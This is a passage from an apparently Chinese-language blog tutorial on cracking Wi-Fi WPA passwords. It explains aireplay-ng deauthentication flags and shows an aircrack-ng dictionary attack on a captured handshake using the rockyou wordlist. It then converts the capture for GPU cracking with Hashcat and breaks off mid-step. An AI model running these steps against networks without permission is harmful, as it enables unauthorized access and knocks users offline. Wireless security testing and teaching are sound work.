 * -0指定发送反认证包的个数
* -a指定无线路由器BSSID
* -c指定强制断开的设备

![破解wifi密码]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-21 19-06-35.png)

如果成功：

![破解wifi密码]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-21 19-06-55.png)

按Ctrl-C结束抓包。

我们已经得到了想要的握手包了，可以结束无线网卡的监控模式了：

{% highlight shell %}
# airmon-ng stop wlan0mon
{% endhighlight %}

![破解wifi密码]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-21 19-09-20.png)

### 6) 开始破解密码

{% highlight shell %}
# aircrack-ng -a2 -b C8:3A:35:30:3E:C8 -w /usr/share/wordlists/rockyou.txt ~/*.cap
{% endhighlight %}

参数解释：

* -a2代表WPA的握手包
* -b指定要破解的wifi BSSID。
* -w指定字典文件
* 最后是抓取的包

![破解wifi密码]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-21 20-06-53.png)

### 可选）使用显卡的运算能力

如果你有一个强大的GPU，为什么不使用GPU跑字典呢？

[Hashcat](http://hashcat.net)可以借助GPU的运算力破解各种不同算法的hash值。

下载时要注意选择正确的显卡类型（AMD、NVidia）。Kali Linux自带这个工具。

在破解cap文件之前，要把它转换为hccap文件：

{% highlight shell %}
# aircrack-ng file.cap -J out.hccap
{% endhighlight %}

使用GPU破解hash：
